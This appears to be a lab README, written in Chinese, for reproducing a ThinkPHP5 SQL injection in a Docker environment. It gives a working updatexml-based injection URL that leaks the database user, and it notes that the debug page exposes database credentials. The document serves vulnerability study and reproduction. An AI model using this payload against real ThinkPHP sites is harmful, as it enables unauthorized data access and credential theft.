


# ThinkPHP5 SQL 注入漏洞 && 敏感信息泄露

## 漏洞描述

漏洞原理说明：

- https://www.leavesongs.com/PENETRATION/thinkphp5-in-sqlinjection.html
- https://xz.aliyun.com/t/125

## 环境搭建

运行环境：

```
docker-compose up -d
```

启动后，访问 `http://your-ip/index.php?ids[]=1&ids[]=2`，即可看到用户名被显示了出来，说明环境运行成功。

## 漏洞复现

访问 `http://your-ip/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1`，信息成功被爆出：



当然，这是一个比较鸡肋的 SQL 注入漏洞。但通过 DEBUG 页面，我们找到了数据库的账号、密码：



这又属于一个敏感信息泄露漏洞。
